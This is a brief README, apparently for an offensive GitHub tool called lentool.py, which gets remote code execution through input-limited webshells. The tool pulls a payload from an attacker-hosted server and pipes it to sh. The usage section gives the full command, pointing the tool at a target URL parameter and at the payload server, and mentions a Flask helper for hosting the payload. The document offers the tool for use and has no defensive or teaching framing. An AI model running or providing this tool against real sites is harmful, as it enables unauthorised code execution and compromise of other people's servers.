 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage:
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
In the extras folder you can find an example using flask to host the payload.
